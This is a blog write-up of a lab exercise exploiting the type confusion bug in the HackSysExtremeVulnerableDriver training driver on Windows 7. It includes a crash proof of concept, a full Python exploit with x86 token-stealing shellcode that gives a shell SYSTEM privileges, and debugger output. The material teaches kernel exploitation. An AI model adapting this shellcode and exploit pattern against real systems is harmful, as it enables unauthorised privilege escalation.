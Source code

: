 ```yaml
---
layout:     post
title:      HackSysExtremeVulnerableDriver TypeConfusion
author:     wooy0ung
tags:       hevd
category:   exploit
---
```


>[Analysis Environment]  
>guest machine: Windows 7 x86 sp0  
>host machine: Windows 10  
>necessary tools: VirtualKD[[here]](http://virtualkd.sysprogs.org/)、OSRloader[[here]](https://www.osronline.com/article.cfm?article=157)、HackSysExtremeVulnerableDriver[[here]](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver)、Windbg  
<!-- more -->


## 0x001 Test POC

Save this code as python script file.
```
import sys
from ctypes import *

kernel32 = windll.kernel32
hevDevice = kernel32.CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver",0xc0000000,0,None,0x3,0,None)

if not hevDevice or hevDevice == -1:
	print "[-] Couldn't get Device Driver handle."
	sys.exit(0)
buf = "A"*4 + "B"*4
buflen = len(buf)

kernel32.DeviceIoControl(hevDevice,0x222023,buf,buflen,None,0,byref(c_ulong()),None)
```

Let's trigger the vulnerability.
```
****** HACKSYS_EVD_IOCTL_TYPE_CONFUSION ******
[+] Pool Tag: 'kcaH'
[+] Pool Type: NonPagedPool
[+] Pool Size: 0x8
[+] Pool Chunk: 0x86CB4550
[+] UserTypeConfusionObject: 0x01B1B634
[+] KernelTypeConfusionObject: 0x86CB4550
[+] KernelTypeConfusionObject Size: 0x8
[+] KernelTypeConfusionObject->ObjectID: 0x41414141
[+] KernelTypeConfusionObject->ObjectType: 0x42424242
[+] Triggering Type Confusion
[+] KernelTypeConfusionObject->Callback: 0x42424242
[+] Calling Callback
[-] Exception Code: 0xC0000005
****** HACKSYS_EVD_IOCTL_TYPE_CONFUSION ******
```
We find that a Exception has been catch beacase of trying to call a illegal Addr at TypeConfusionObjectInitializer method.
![](/assets/img/exploit/2018-08-08-hacksys-extreme-vulnerable-driver-typeconfusion/0x001.png)


## 0x002 Exploit it!

By reading the source code, I get a structure. We may set the ObjectType with our shellcode Addr.
```
typedef struct _USER_TYPE_CONFUSION_OBJECT {
	ULONG ObjectID;
	ULONG ObjectType;
} USER_TYPE_CONFUSION_OBJECT, *PUSER_TYPE_CONFUSION_OBJECT;
```

Compared with the previous challenge, this is relatively simple. Enjoy our exploit~
```
import sys,struct
from ctypes import *
from subprocess import *

def main():
	kernel32 = windll.kernel32
	hevDevice = kernel32.CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver",0xc0000000,0,None,0x3,0,None)

	if not hevDevice or hevDevice == -1:
		print "[-] Couldn't get Device Driver handle."
		sys.exit(0)
	
	shellcode = ""
	shellcode += bytearray(
		"\xcc"
		"\x60"                            # pushad
		"\x31\xc0"                        # xor eax,eax
		"\x64\x8b\x80\x24\x01\x00\x00"    # mov eax,[fs:eax+0x124]
		"\x8B\x80\x50\x01\x00\x00"        # mov eax,[eax+0x150]
		"\x89\xc1"                        # mov ecx,eax
		"\xba\x04\x00\x00\x00"            # mov edx,0x4
		"\x8b\x80\xb8\x00\x00\x00"        # mov eax,[eax+0xb8]
		"\x2d\xb8\x00\x00\x00"            # sub eax,0xb8
		"\x39\x90\xb4\x00\x00\x00"        # cmp [eax+0xb4],edx
		"\x75\xed"                        # jnz 0x1a
		"\x8b\x90\xf8\x00\x00\x00"        # mov edx,[eax+0xf8]
		"\x89\x91\xf8\x00\x00\x00"        # mov [ecx+0xf8],edx
		"\x61"                            # popad
		"\x5d"                            # pop ebp
		"\xc2\x08\x00"                    # ret 0x8
	)

	ptr = kernel32.VirtualAlloc(c_int(0),c_int(len(shellcode)),c_int(0x3000),c_int(0x40))
	buff = (c_char * len(shellcode)).from_buffer(shellcode)
	kernel32.RtlMoveMemory(c_int(ptr),buff,c_int(len(shellcode)))
	shellcode_final = struct.pack("<L",ptr)

	buf = "A"*4 + shellcode_final
	buflen = len(buf)

	kernel32.DeviceIoControl(hevDevice,0x222023,buf,buflen,None,0,byref(c_ulong()),None)

	Popen("start cmd",shell=True)

if __name__ == "__main__":
	main()
```

pwn~
```
****** HACKSYS_EVD_IOCTL_TYPE_CONFUSION ******
[+] Pool Tag: 'kcaH'
[+] Pool Type: NonPagedPool
[+] Pool Size: 0x8
[+] Pool Chunk: 0x86C9E838
[+] UserTypeConfusionObject: 0x01BC18F4
[+] KernelTypeConfusionObject: 0x86C9E838
[+] KernelTypeConfusionObject Size: 0x8
[+] KernelTypeConfusionObject->ObjectID: 0x41414141
[+] KernelTypeConfusionObject->ObjectType: 0x00380000
[+] Triggering Type Confusion
[+] KernelTypeConfusionObject->Callback: 0x00380000
[+] Calling Callback
Breakpoint 0 hit
HEVD!TypeConfusionObjectInitializer+0x20:
96e98742 83c40c          add     esp,0Ch
kd> u 0x00380000 L1a
00380000 cc              int     3
00380001 60              pushad
00380002 31c0            xor     eax,eax
00380004 648b8024010000  mov     eax,dword ptr fs:[eax+124h]
0038000b 8b8050010000    mov     eax,dword ptr [eax+150h]
00380011 89c1            mov     ecx,eax
00380013 ba04000000      mov     edx,4
00380018 8b80b8000000    mov     eax,dword ptr [eax+0B8h]
0038001e 2db8000000      sub     eax,0B8h
00380023 3990b4000000    cmp     dword ptr [eax+0B4h],edx
00380029 75ed            jne     00380018
0038002b 8b90f8000000    mov     edx,dword ptr [eax+0F8h]
00380031 8991f8000000    mov     dword ptr [ecx+0F8h],edx
00380037 61              popad
00380038 5d              pop     ebp
00380039 c20800          ret     8
```
![](/assets/img/exploit/2018-08-08-hacksys-extreme-vulnerable-driver-typeconfusion/0x002.png)